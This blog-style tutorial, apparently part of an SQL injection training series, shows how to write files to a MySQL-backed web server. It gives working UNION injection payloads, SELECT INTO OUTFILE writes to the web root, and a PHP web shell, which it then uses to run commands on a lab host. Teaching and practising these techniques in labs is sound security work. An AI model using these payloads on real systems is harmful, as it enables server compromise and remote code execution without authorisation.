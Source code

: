 ```yaml
---
title: "SQLi Series 09 - Database Enumeration | Write File"
seoTitle: "SQLi Series: Database Enumeration & Writing Files"
seoDescription: "Learn to write files to a server via SQL injection, covering techniques, safety, and best practices in a step-by-step guide"
datePublished: Wed Apr 24 2024 03:11:51 GMT+0000 (Coordinated Universal Time)
cuid: clvd8nx5a000309l97j4o8911
slug: sqli-series-09-database-enumeration-write-file
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1713738609051/3a0aa7f2-a0db-421d-962f-52f2765a1df7.png
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1713738618627/8e2df5fa-61f1-491d-82dc-9d8bdf1ed81c.png

---
```


## **Objective:**

To provide a detailed, step-by-step guide on writing files to a back-end server through SQL injection vulnerabilities, enabling learners to fully understand and reproduce the techniques safely.

## **Introduction to File Writing in Modern DBMSes**

### **a) Explanation of the restrictions on file writing in modern DBMSes**

* Default disabling of file-write functionality
    
* Requirement of certain privileges for DBAs to write files
    

### **b) Importance of checking sufficient rights and DBMS file-writing allowance before attempting to write files**

## **Prerequisites for Writing Files in MySQL**

### **a) User with FILE privilege enabled**

* Explanation of the FILE privilege and its necessity for file writing
    

### **b) MySQL global secure\_file\_priv variable not enabled**

* Definition and purpose of the secure\_file\_priv variable
    
* Impact of different values (empty, specific directory, NULL) on file reading/writing capabilities
    

### **c) Write access to the target location on the back-end server**

* Importance of having proper write permissions for the desired file location
    

## **Checking the secure\_file\_priv Variable**

### **a) Using the SHOW VARIABLES statement in MySQL**

* Syntax: `SHOW VARIABLES LIKE 'secure_file_priv';`
    
* Explanation of the query's purpose
    

### **b) Retrieving the value using a SELECT statement in a UNION injection**

* Location of global variables in the INFORMATION\_SCHEMA database
    
* Structure of the global\_variables table (variable\_name and variable\_value columns)
    
* Constructing the SQL query to retrieve the secure\_file\_priv value
    

```sql

SELECT variable_name, variable_value FROM information_schema.global_variables WHERE variable_name="secure_file_priv"

```

### **c) Adapting the query for a UNION injection payload**

* Adding junk columns to match the total number of columns in the original query
    
* Example payload:
    

```sql

cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -

```

### **d) Interpreting the result and its impact on file reading/writing capabilities**

## **Using SELECT INTO OUTFILE for File Writing**

### **a) Explanation of the SELECT INTO OUTFILE statement**

* Purpose and common use cases (e.g., exporting data from tables)
    
* Syntax: `SELECT ... INTO OUTFILE '...'`
    

### **b) Examples of writing table content to a file**

* Selecting all columns from a table and writing to a file
    

```sql

SELECT * FROM users INTO OUTFILE '/tmp/credentials';

```

* Verifying the file content on the back-end server
    

### **c) Writing arbitrary data to a file using SELECT statements**

* Selecting a string value and writing it to a file
    

```sql

SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';

```

* Verifying the file content and ownership on the back-end server
    

### **d) Tip: Using the FROM\_BASE64() function for advanced file exports, including binary data**

## **Writing Files through SQL Injection**

### **a) Attempting to write a text file to the web root directory**

* Constructing the query to write a test string to a file
    

```sql

SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt'

```

* Adapting the query for a UNION injection payload
    

```sql

cn' UNION SELECT 1,'file written successfully!',3,4 INTO OUTFILE '/var/www/html/proof.txt'-- -

cn' union select 1,'test',3,4 into outfile '/tmp/test.txt'-- -
```

* Verifying the file's existence in the web root directory
    

### **b) Finding the web root directory**

* Using LOAD\_FILE to read server configuration files (Apache, Nginx, IIS)
    
* Searching online for possible configuration locations
    
* Running a fuzzing scan to test different potential web roots (Linux and Windows wordlists)
    
* Utilizing server errors to identify the web directory
    

### **c) Writing a PHP web shell**

* Constructing a simple PHP web shell payload
    

```php

<?php system($_REQUEST[0]); ?>

```

* Adapting the UNION injection payload to write the web shell
    

```sql

cn' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"","" INTO OUTFILE '/var/www/html/shell.php'-- -

```

* Verifying the web shell's existence and functionality by executing commands via the 0 parameter
    

```sql

http://SERVER_IP:PORT/shell.php?0=id

```

* Confirming code execution and identifying the running user (e.g., www-data)
    

```sql
<http://94.237.63.83:49004/shell.php?0=cat+../flag.txt>
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1713738513041/9f4b97f6-80b9-4670-8ede-7b01f0dfe564.png align="left")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1713738518761/f31dce03-937d-449e-9bfc-448e2c89fc35.png align="left")

## **Best Practices and Safety Considerations**

* Always test in a controlled environment to avoid unintended consequences
    
* Use the techniques responsibly and only on systems you have explicit permission to test
    
* Properly secure and clean up any files written during testing
    
* Stay updated on the latest security patches and best practices for preventing SQL injection vulnerabilities
    

## **Checkpoint Exercise**

* Set up a vulnerable MySQL-based web application in a safe testing environment
    
* Attempt to write a text file to the web root using a UNION-based SQL injection payload
    
* Verify the file's existence and content on the back-end server
    
* Write a PHP web shell and confirm code execution by running a basic command
    

## **Conclusion**

* Recap of the key concepts and techniques covered in the guide
    
* Emphasis on the importance of continuous learning and staying updated with the latest security practices
    
* Encouragement to apply the acquired knowledge responsibly and ethically